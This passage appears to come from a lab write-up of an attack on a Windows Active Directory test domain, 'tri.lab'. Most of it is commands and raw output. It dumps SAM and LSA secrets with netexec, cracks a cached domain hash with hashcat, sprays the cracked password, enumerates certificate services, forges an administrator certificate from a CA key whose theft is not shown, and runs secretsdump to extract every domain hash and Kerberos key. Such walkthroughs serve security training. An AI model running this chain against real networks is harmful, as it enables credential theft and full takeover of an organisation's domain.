SMB         224.0.0.1       445    BIKE-SRV         [+] Dumped 8 LSA secrets to /home/rosskeddy/.nxc/logs/lsa/BIKE-SRV_224.0.0.1_2026-01-09_151616.secrets and /home/rosskeddy/.nxc/logs/lsa/BIKE-SRV_224.0.0.1_2026-01-09_151616.cached
```

Two critical pieces are obtained from the SAM and LSA:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9a6434f863c1835d5f1baf39a544ad57:::

TRI.LAB/m.pearson:$DCC2$10240#m.pearson#05b458fcb2ebb0869a4979097a6bedaa: (2025-10-06 05:25:20)
```

The NTLM can be passed, but the attacker will attempt to crack the LSA with Hashcat.
```zsh
➜ hashcat -m 2100 -a 0 \
'$DCC2$10240#m.pearson#05b458fcb2ebb0869a4979097a6bedaa' \
/usr/share/wordlists/rockyou.txt

$DCC2$10240#m.pearson#05b458fcb2ebb0869a4979097a6bedaa:2silver
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 2100 (Domain Cached Credentials 2 (DCC2), MS Cache 2)
Hash.Target......: $DCC2$10240#m.pearson#05b458fcb2ebb0869a4979097a6bedaa
Time.Started.....: Fri Jan  9 15:24:30 2026 (36 secs)
Time.Estimated...: Fri Jan  9 15:25:06 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    20148 H/s (13.12ms) @ Accel:1024 Loops:640 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 724992/14344385 (5.05%)
Rejected.........: 0/724992 (0.00%)
Restore.Point....: 720896/14344385 (5.03%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:9600-10239
Candidate.Engine.: Device Generator
Candidates.#01...: 457076 -> 28197
Hardware.Mon.#01.: Util: 97%

Started: Fri Jan  9 15:24:19 2026
Stopped: Fri Jan  9 15:25:07 2026
```

## SWIM-SRV
Which cracks! The attacker has now obtained `m.pearson:2silver`. Next the attacker will spray these credentials which reveals `SWIM-SRV` as being pwned!
```zsh
✘ netexec smb hosts.txt -u 'm.pearson' -p '2silver'
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.27.33      445    BIKE-SRV         [*] Windows Server 2022 Build 20348 x64 (name:BIKE-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.16.22      445    RUN-SRV          [*] Windows Server 2022 Build 20348 x64 (name:RUN-SRV) (domain:tri.lab) (signing:True) (SMBv1:False)
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\m.pearson:2silver (Pwn3d!)
SMB         10.0.27.33      445    BIKE-SRV         [+] tri.lab\m.pearson:2silver 
SMB         10.0.16.22      445    RUN-SRV          [+] tri.lab\m.pearson:2silver 
Running nxc against 3 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

The attacker will dump the credentials from `SWIM-SRV`
```zsh
➜ netexec smb SWIM-SRV -u 'm.pearson' -p '2silver' --sam
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\m.pearson:2silver (Pwn3d!)
SMB         10.0.18.230     445    SWIM-SRV         [*] Dumping SAM hashes
SMB         10.0.18.230     445    SWIM-SRV         Administrator:500:aad3b435b51404eeaad3b435b51404ee:3db8f8a14c6de870a6a3afed77562d4f:::                                                                                                              
SMB         10.0.18.230     445    SWIM-SRV         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                      
SMB         10.0.18.230     445    SWIM-SRV         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                             
SMB         10.0.18.230     445    SWIM-SRV         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d7da45674bae3a0476c0f64b67121f7d:::                                                                                                         
SMB         10.0.18.230     445    SWIM-SRV         [+] Added 4 SAM hashes to the database
                                                                                                                            

👤 rosskeddy 🏠 /work took 5s 
➜ netexec smb SWIM-SRV -u 'm.pearson' -p '2silver' --lsa
SMB         10.0.18.230     445    SWIM-SRV         [*] Windows Server 2022 Build 20348 x64 (name:SWIM-SRV) (domain:tri.lab) (signing:False) (SMBv1:False)
SMB         10.0.18.230     445    SWIM-SRV         [+] tri.lab\m.pearson:2silver (Pwn3d!)
SMB         10.0.18.230     445    SWIM-SRV         [+] Dumping LSA secrets
SMB         10.0.18.230     445    SWIM-SRV         TRI.LAB/Administrator:$DCC2$10240#Administrator#9ba54f4ea00cab3cd7afc83b1a2ee62d: (2025-10-03 22:34:43)                                                                                             
SMB         10.0.18.230     445    SWIM-SRV         TRI.LAB/e.ackerlund:$DCC2$10240#e.ackerlund#58426247eda387809d6a98127d52d8c9: (2026-01-09 20:30:50)                                                                                                 
SMB         10.0.18.230     445    SWIM-SRV         TRI\SWIM-SRV$:aes256-cts-hmac-sha1-96:66b47549b22bbdc6654e74948f03d39197db43503a5accd99b32522dbf6302fd                                                                                              
SMB         10.0.18.230     445    SWIM-SRV         TRI\SWIM-SRV$:aes128-cts-hmac-sha1-96:f1c38e2ef2fe0b1bf1582a25395d0a9c
SMB         10.0.18.230     445    SWIM-SRV         TRI\SWIM-SRV$:des-cbc-md5:547f8cb39807df73
SMB         10.0.18.230     445    SWIM-SRV         TRI\SWIM-SRV$:plain_password_hex:cd0e41c4ee64c349486cd49d91ccc85c1501ab6c839f6e71d9c224fe7bdcbe470b2c03aa15fcb8503f1ff758a739e64b373315d90e4a510f429a25dd48a2cc3fa0747dcdc7b3903066f98015a50b2264e75e3beefbc52f6d9ba2735313035bfd02742352ab3a666f0b993a2cafc5e2da08d69eb11cf708685b9de28737261d3157d0ee0c94a173d24cdeb8b57f2d7c3d3af3d25ffa4efe4d28ffbbf1b73baacf26a6e9c034d44a01e1bbb6be4dfc2acbc42f67876330f1e9de7f84d9456426191602824a2940ff7e3b866a6666e917ebd4677fc3cd92687436b859d4153cb04ab10d48a24916edcc95a6a2312c689823                                                       
SMB         10.0.18.230     445    SWIM-SRV         TRI\SWIM-SRV$:aad3b435b51404eeaad3b435b51404ee:38a795c4460440398be58843d4ba229c:::                                                                                                                  
SMB         10.0.18.230     445    SWIM-SRV         dpapi_machinekey:0x7d89a8d24da44126724e23a7dfb04c5060917cf6
dpapi_userkey:0xa76480d17bd5127d94f33cd46ee25dfd2fd6f9e8
```

Unfortunately the `e.ackerlund` credential did not crack.
```zsh
✘ hashcat -m 2100 -a 0 \
'$DCC2$10240#e.ackerlund#58426247eda387809d6a98127d52d8c9' \ 
/usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
```

Next the attacker will enumerate ADCS for any vulnerabilities.
```zsh
➜ certipy-ad find -u 'm.pearson' -p '2silver' -dc-ip 10.0.16.22 -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tri-CA' via RRP
[*] Successfully retrieved CA configuration for 'tri-CA'
[*] Checking web enrollment for CA 'tri-CA' @ 'SWIM-SRV.tri.lab'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260109154850_Certipy.txt'
[*] Wrote text output to '20260109154850_Certipy.txt'
[*] Saving JSON output to '20260109154850_Certipy.json'
[*] Wrote JSON output to '20260109154850_Certipy.json'

➜ cat 20260109154718_Certipy.json                                          
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "tri-CA",
      "DNS Name": "SWIM-SRV.tri.lab",
      "Certificate Subject": "CN=tri-CA, DC=tri, DC=lab",
      "Certificate Serial Number": "53518E5377D781B84B1AB058ADF46298",
      "Certificate Validity Start": "2025-10-03 22:17:55+00:00",
      "Certificate Validity End": "2124-10-03 22:27:55+00:00",
      "Web Enrollment": {
        "http": {
          "enabled": false
        },
        "https": {
          "enabled": false,
          "channel_binding": null
        }
      },
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Active Policy": "CertificateAuthority_MicrosoftDefault.Policy",
      "Permissions": {
        "Owner": "TRI.LAB\\Administrators",
        "Access Rights": {
          "1": [
            "TRI.LAB\\Administrators",
            "TRI.LAB\\Domain Admins",
            "TRI.LAB\\Enterprise Admins"
          ],
          "2": [
            "TRI.LAB\\Administrators",
            "TRI.LAB\\Domain Admins",
            "TRI.LAB\\Enterprise Admins"
          ],
          "512": [
            "TRI.LAB\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": "[!] Could not find any certificate templates"
}

✘ nxc ldap RUN-SRV -u 'm.pearson' -p '2silver' -M adcs
LDAP        10.0.16.22      389    RUN-SRV          [*] Windows Server 2022 Build 20348 (name:RUN-SRV) (domain:tri.lab)
LDAP        10.0.16.22      389    RUN-SRV          [+] tri.lab\m.pearson:2silver 
ADCS        10.0.16.22      389    RUN-SRV          [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.0.16.22      389    RUN-SRV          Found PKI Enrollment Server: SWIM-SRV.tri.lab
ADCS        10.0.16.22      389    RUN-SRV          Found CN: tri-CA
```

### Privilege Escalation
#### ESC7

```zsh
certipy forge -ca-pfx tri-CA.pfx -upn j.reed_adm@tri.lab -sid S-1-5-21-542797205-3952052766-1175187200-1109 -crl ldap:///

➜ certipy forge -ca-pfx tri-CA.pfx -upn j.reed_adm@tri.lab -sid S-1-5-21-542797205-3952052766-1175187200-1109 -crl ldap:///
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'j.reed_adm_forged.pfx'
[*] Wrote forged certificate and private key to 'j.reed_adm_forged.pfx'

➜ certipy auth -pfx "j.reed_adm_forged.pfx" -dc-ip 10.0.16.22 -username j.reed_adm -domain tri.lab 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'j.reed_adm@tri.lab'
[*]     SAN URL SID: 'S-1-5-21-542797205-3952052766-1175187200-1109'
[*]     Security Extension SID: 'S-1-5-21-542797205-3952052766-1175187200-1109'
[*] Using principal: 'j.reed_adm@tri.lab'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'j.reed_adm.ccache'
[*] Wrote credential cache to 'j.reed_adm.ccache'
[*] Trying to retrieve NT hash for 'j.reed_adm'
[*] Got hash for 'j.reed_adm@tri.lab': aad3b435b51404eeaad3b435b51404ee:213846abdca7279a77229f6b422263fe
```


## RUN-SRV
### Domain Compromise

With `j.reed_adm` obtained and of which is a domain administrator, the attacker simply uses secretsdump.py to dump all domain credentials, fully compromising the active directory.
```bash
➜ secretsdump.py j.reed_adm@tri.lab -hashes ':213846abdca7279a77229f6b422263fe'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x068696a3c09b87f853a9c2c8399cfbe0
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:47a7fbb0dcf9ab80dd948a4963afd0c3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
TRI\RUN-SRV$:aes256-cts-hmac-sha1-96:a239a22dfb22de620933b7a7b7623dbc3a68db51267a4cc68b7788c456ad80d3
TRI\RUN-SRV$:aes128-cts-hmac-sha1-96:e6dfa9ac6a4b94cfde872138e3c9adb3
TRI\RUN-SRV$:des-cbc-md5:d0616e6e58fed915
TRI\RUN-SRV$:plain_password_hex:2efcd9385403ed40693092d68abce78bcccb1c11b432196faf8e3cbb4ca8cc89c96a60b57de0732f93526927c976d873dcd7424bb8b3992dcdb77de633d3b1974dda864cf0cc2dbff57bebfc7666d576ebd7e23c900cfa6e8a3524924f0759f6b40f5bb75945196122f582000b53a0c169100d78e5c9e21347b7e7aa4c18c1e3f66746beed8c1d0a981336058865d49a6ae5b8127ca03f444a11c07e7ab3916db4c9e5f4617d2e742e97e849744d0137965cba2594f3eecb2466b589b256bb5802179cd366089c946414b7fbedb6c3f62675f35d393c643facad66c04d5e233f0381d3aedc07accd1ef115ff8d16dacd
TRI\RUN-SRV$:aad3b435b51404eeaad3b435b51404ee:44d1023e6ac134083ae99ea9ad4f7eea:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xed3adb080a04b32512a26fa060d92afd184eef0f
dpapi_userkey:0xd529b68f274e30173be4661c707acfe993488f99
[*] NL$KM 
 0000   B6 96 C7 7E 17 8A 0C DD  8C 39 C2 0A A2 91 24 44   ...~.....9....$D
 0010   A2 E4 4D C2 09 59 46 C0  7F 95 EA 11 CB 7F CB 72   ..M..YF........r
 0020   EC 2E 5A 06 01 1B 26 FE  6D A7 88 0F A5 E7 1F A5   ..Z...&.m.......
 0030   96 CD E5 3F A0 06 5E C1  A5 01 A1 CE 8C 24 76 95   ...?..^......$v.
NL$KM:b696c77e178a0cdd8c39c20aa2912444a2e44dc2095946c07f95ea11cb7fcb72ec2e5a06011b26fe6da7880fa5e71fa596cde53fa0065ec1a501a1ce8c247695
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:183d35a34c9741693912242ec48f9930:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3e51ec78e8a47ef55791dad0f752aa69:::
tri.lab\t.spivey:1103:aad3b435b51404eeaad3b435b51404ee:aaf895b31116d312a414dab0c45e0ba2:::
tri.lab\j.reed:1104:aad3b435b51404eeaad3b435b51404ee:405c3b0e8ab6887b49064708c9277caf:::
tri.lab\e.ackerlund:1105:aad3b435b51404eeaad3b435b51404ee:35393dfc46f632e8e98830ac911779bb:::
tri.lab\m.pearson:1106:aad3b435b51404eeaad3b435b51404ee:40d6f296d7a84f7a52d37b5fd8cba80a:::
tri.lab\j.reed_adm:1109:aad3b435b51404eeaad3b435b51404ee:213846abdca7279a77229f6b422263fe:::
RUN-SRV$:1000:aad3b435b51404eeaad3b435b51404ee:44d1023e6ac134083ae99ea9ad4f7eea:::
BIKE-SRV$:1107:aad3b435b51404eeaad3b435b51404ee:197117ec08ec5b9f0b1f07362521287f:::
SWIM-SRV$:1108:aad3b435b51404eeaad3b435b51404ee:38a795c4460440398be58843d4ba229c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:68c66583af74db980ed81819b73483e61e4ac868f6c3914d4b970e3172b909ec
Administrator:aes128-cts-hmac-sha1-96:fd0b56826348b562f01542ad773de83b
Administrator:des-cbc-md5:d04cda80bc2aea20
krbtgt:aes256-cts-hmac-sha1-96:7cabb69c76abcd6fa80d5ff4fb13f43c08866a1276d885d57a912218524f052a
krbtgt:aes128-cts-hmac-sha1-96:41562765f40beb454a36650a1d711b8c
krbtgt:des-cbc-md5:e6b03461c46eaea8
tri.lab\t.spivey:aes256-cts-hmac-sha1-96:c554525e38a131128c4a40abaf44ece9c60d243c31450ef3348ddba94d99c2e5
tri.lab\t.spivey:aes128-cts-hmac-sha1-96:adf0de851fce0d40ae3f54fe94b5ae73
tri.lab\t.spivey:des-cbc-md5:26bac407d9c4dcc2
tri.lab\j.reed:aes256-cts-hmac-sha1-96:ed7494562374f5b38b638eda32cc9acf7afc34b7d3257a9dbc8e5d8b1b2d3f17
tri.lab\j.reed:aes128-cts-hmac-sha1-96:b280afaac60d822e2852bcf4e4a0f9b3
tri.lab\j.reed:des-cbc-md5:973864208675c137
tri.lab\e.ackerlund:aes256-cts-hmac-sha1-96:1f0be908adf5f514609b448ac15f61edacabdc1d200911eda818ba47d8cbd3f6
tri.lab\e.ackerlund:aes128-cts-hmac-sha1-96:ddc606facf541d72c1e6889ea3ea7118
tri.lab\e.ackerlund:des-cbc-md5:1023757f64bf8f70
tri.lab\m.pearson:aes256-cts-hmac-sha1-96:0c885b356b0579923b8be2dcc0df6eb43cbd911a433139d786c9892368d0b0b8
tri.lab\m.pearson:aes128-cts-hmac-sha1-96:677572e9540f6614dcda6cc88140016d
tri.lab\m.pearson:des-cbc-md5:b5b3bce667abb9ea
tri.lab\j.reed_adm:aes256-cts-hmac-sha1-96:0f7ff389a56d0455e4fed3484afd7f76df0486e2fe8f6cbfb0aaa5ebdc7dc577
tri.lab\j.reed_adm:aes128-cts-hmac-sha1-96:8455f9bf57b9bbc5089283ab459fb3c7
tri.lab\j.reed_adm:des-cbc-md5:6832dc1616eae0fb
RUN-SRV$:aes256-cts-hmac-sha1-96:a239a22dfb22de620933b7a7b7623dbc3a68db51267a4cc68b7788c456ad80d3
RUN-SRV$:aes128-cts-hmac-sha1-96:e6dfa9ac6a4b94cfde872138e3c9adb3
RUN-SRV$:des-cbc-md5:43020bb3cb6873a2
BIKE-SRV$:aes256-cts-hmac-sha1-96:5c8bc79e715a13c3d74f79a95cffc7c379791c54faedb63f270b9eb2bfb98a67
BIKE-SRV$:aes128-cts-hmac-sha1-96:23afadc7be00a41ebb01778683642271
BIKE-SRV$:des-cbc-md5:381632970b5b589b
SWIM-SRV$:aes256-cts-hmac-sha1-96:66b47549b22bbdc6654e74948f03d39197db43503a5accd99b32522dbf6302fd
SWIM-SRV$:aes128-cts-hmac-sha1-96:f1c38e2ef2fe0b1bf1582a25395d0a9c
SWIM-SRV$:des-cbc-md5:9d854c012598c26d
```